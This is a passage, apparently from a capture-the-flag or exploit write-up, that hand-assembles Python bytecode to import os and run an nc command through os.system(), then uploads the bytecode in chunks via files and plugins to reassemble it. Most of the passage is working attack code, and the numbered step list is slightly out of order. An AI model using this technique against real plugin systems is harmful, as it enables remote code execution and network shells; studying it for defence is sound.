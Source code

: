 ```
    ("CALL_METHOD", 0),
    # Concatenate the three strings
    ("BUILD_STRING", 3),
    # Finaly invoke the nc command
    ("CALL_METHOD", 1),
]
```

This performs the following:

1. Invoke `len(list())` to push `0` onto the stack
2. Invoke `print()` to push `None` onto the stack
5. Import `os`
3. Load all three batches of the `nc` command
4. Decode the command batches because `BUILD_STRING` only works with strings and not byte strings
4. Concatenate the `nc` command
6. Invoke the `nc` command via `os.system()`

Then, we can "compile" the code:

```
exploit_bytecode = b""
for op_name, arg in exploit_asm:
    exploit_bytecode += bytes([opmap[op_name], arg])
```

After that, we need to append the constants to make them available to the plugin:

```
exploit_bytecode += b";"
exploit_bytecode += b";".join(n.encode() for n in co_names)
```

### Upload exploit bytecode in chunks

Check how many chunks we need to store the exploit in:

```
num_chunks = len(exploit_bytecode) // chunk_size + 1
```

Pad the exploit code to a multiple of 12:

```
exploit_bytecode = exploit_bytecode.ljust(chunk_size * num_chunks, b";")
```

Upload exploit chunks:

```
for i in range(0, len(exploit_bytecode), chunk_size):
    upload_file(exploit_bytecode[i : i + chunk_size])
```

### Upload plugins to assemble exploit chunks

```
for i in range(num_chunks):
    upload_plugin(
        str(i), get_plugin_code(plugin_log_index, exploit_filename, base_index + i)
    )
```
